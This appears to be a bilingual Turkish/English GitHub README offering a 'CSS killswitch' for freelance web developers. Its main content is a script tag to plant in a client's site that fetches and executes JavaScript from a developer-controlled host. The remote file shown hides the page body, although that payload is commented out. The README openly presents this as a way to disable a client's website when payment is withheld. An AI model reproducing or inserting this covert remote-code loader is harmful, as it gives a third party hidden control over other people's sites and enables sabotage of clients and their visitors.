 # css-killswitch
The holy CSS killswitch that devastates HTML body.


## Türkçe ##

Eğer benim gibi ufak-orta ölçekli projelerle uğraşıyorsanız, ve proje altyapısı sizin elinizde değilse, yani hosting&domain ikilisi size ait değilse, bu kod işinize yarayacaktır.

```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

bu script tag'inin içindeki get işlemi, sizin kontrolünüz altında olan bir siteden acildurum JS dosyamızı çağırır. Peki acildurum.js'nin içinde ne var?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Tabi ki siteyi kullanılmaz hale getiren ufak bir kod bloğu. Ve paramızı ödemekte problem çıkartan müşteri, götüm götüm bizi kovalamaya başlıyor. Sorun çözüldü!

Not: Bu kodu kullanıp projeyi kullanılmaz hale getirmeniz ile ilgili bütün yasal sorumluluk size aittir. Eğer müşteri ile iletişim kuramıyorsanız, ödemenizi alıp projeyi sonlandırma pencereniz tamamen kapandıysa, bu kod muhtemelen iyi bir seçim olacaktır.

## English ##

Hey! If you dude work on small-mid range projects and don't own the domain&hosting infrastructure, that code might be the catch for you.





```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

This script tag calls a script from a website you own, and let's see what we got here?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Of course, a code block to get website unaccessible. Client that refuses the pay up will get his/her *ss on fire soon, problem solved!

Note that I'm not responsible for the illegal use of that code block, all the legal responsibility on you. It's a final solution for client doesn't come up on phone calls, and the certain consequences that you get ripped off. Also note that you're gonna be the guilty side if you had a partial payment for the project.
